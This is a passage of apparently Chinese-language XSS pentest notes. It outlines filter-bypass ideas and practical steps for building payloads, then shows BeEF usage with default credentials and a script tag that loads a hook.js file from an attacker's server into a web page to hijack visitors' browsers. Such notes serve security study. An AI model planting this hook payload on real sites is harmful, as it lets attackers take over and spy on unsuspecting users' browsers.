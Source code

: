 ```php
# javascript
1、编码
2、事件
```

```php
# "
1、'
```

```php
# 空格
1、编码
```



## 六、实战思路

### 1、确定敏感功能点

### 2、输入正常字符

### 3、查找字符所在位置

### 4、构造Payload

### 5、考虑闭合

### 6、绕过防护



## 七、相关工具

### 1、BeEF

```php
# 链接
https://www.wangan.com/docs/781
```

```php
# 用法
1、浏览器打开BeEF http://ip:3000/
2、默认账号密码beef beef
3、网页插入Payload 
    <script src="http://ip:3000/hook.js"></script>
4、等待上线
```

### 2、XSS平台
